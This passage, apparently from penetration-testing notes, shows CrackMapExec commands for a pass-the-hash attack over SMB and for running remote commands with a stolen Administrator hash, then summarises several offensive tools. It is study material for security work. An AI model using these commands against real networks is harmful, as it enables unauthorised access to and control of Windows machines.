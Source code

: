 Above we used psexec for pas the hash attack but you can also use other tools such as: crackmapexe

- crackmapexec smb targetip -u Administrator -H "{hash}"
- try to execute commands
	- crackmapexec smb targetip -u Administrator -H "{hash}" -x "ipconfig"
	- crackmapexec smb targetip -u Administrator -H "{hash}" -x "net user"



In summary, CrackMapExec is focused on password auditing and Windows network exploitation, Evil-WinRM enables remote command execution on Windows systems, Cadaver is used for interacting with WebDAV servers, and msfvenom is a payload generator for creating malicious payloads within the Metasploit Framework. 


